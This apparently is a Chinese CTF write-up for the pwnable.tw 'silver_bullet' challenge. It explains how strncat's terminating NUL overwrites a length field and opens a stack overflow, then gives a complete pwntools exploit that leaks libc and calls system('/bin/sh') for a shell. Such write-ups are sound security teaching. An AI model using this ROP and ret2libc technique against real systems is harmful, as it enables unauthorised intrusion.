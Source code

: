 ```yaml
---
Layout: Post
title: pwnable.tw silver_bullet
date: 2022-08-07 09:28:56
tags: pwnable.tw
---
```


Off-by-NULL
<!-- more -->

## 功能描述

循环打印一个菜单，可以选择生成子弹、升级子弹、攻击BOSS（成功了才能return）、或者exit(0)
推测子弹结构如下：

```c
typedef struct _Bullet {
    char description[0x30];
    unsigned int power;
}
```

生成子弹和升级子弹时，都会提示输入 `description` ，然后对输入的 `description` 使用 `strlen`，加到 `power` 上。
在升级子弹时，description的大小限制为 `0x30-power`，读取到 `power_up` 的栈帧上。在更新 `power` 后将会用 `strncat()` 将新的 `description` 加到原来的 `description` 之后。

## 漏洞

本题漏洞是对于 `strncat` 的误用。
假设上述 `description` 已经有 0x2f 个字符，那么在 `power_up` 函数中，会限制只能读取一个字符。
然而在复制字符串时，`strncat`不仅会把 `description[0x2f]` 覆盖成该字符，还会把后面的 `description[0x30]` 修改成 `\0`。

也就是说，虽说 `strncat` 有一个大小限制 $n$ 的参数，但这个 $n$ **并不能保证参数中的 `dest` 字符串只有 $n$ 个字符被修改**，而是指**参数中的 `src` 字符串至多有多长**！
在本题中，程序并没有考虑到这一点，因此可以把正好位于 `description[0x30]` 的 `power` 最低位覆盖为 `\0`。如此一来，在下一次 `power_up` 时，我们就可以从 `power` 这个变量开始，输入 0x30 个字符，达成栈溢出攻击。

## 利用

由于只能一次输入，因此我选择泄露libc的 `puts` 之后(打败boss来正常return)，调用 `_start` 重开，在新的一轮中再实施攻击，拿到shell。

exp:

```python
from pwn import *
context.arch='i386'
# context.log_level='debug'

filename="./silver_bullet"
io = process([filename], env={"LD_PRELOAD":"./libc_32.so.6"})
elf=ELF(filename)

libc_name="./libc_32.so.6"
libc=ELF(libc_name)

io = remote("chall.pwnable.tw", 10103)

def dbg():
    g = gdb.attach(io)

def rop(payload):
    io.send(b'1')
    io.recv()
    io.send(b'\xff'*47)
    io.recv()

    io.send(b'2')
    io.recv()
    io.send(b'\xff')
    io.recv()

    io.send(b'2')
    io.recv()
    io.send(b'\xff'*7 + payload) # 之所以这里是7而不是8，因为在strncat的时候power最低位已经有值了，所以只需要用3个字符填充power，4个字符填充saved rbp
    io.recv()

    io.send(b'3')

# leak libc
payload = b''
payload += pack(elf.plt['puts'])
payload += pack(elf.symbols['_start'])
payload += pack(elf.got['puts'])

rop(payload)
mes = io.recvrepeat(5)
pos = mes.find(b'You win !!\n') + len('You win !!\n')
libc_base = unpack(mes[pos:pos+4]) - libc.symbols['puts']

# system('/bin/sh')
payload = b''
payload += pack(libc_base + libc.symbols['system'])
payload += pack(libc_base + libc.symbols['system'])
payload += pack(libc_base + 0x00158e8b) # "/bin/sh"

rop(payload)
io.interactive()
```
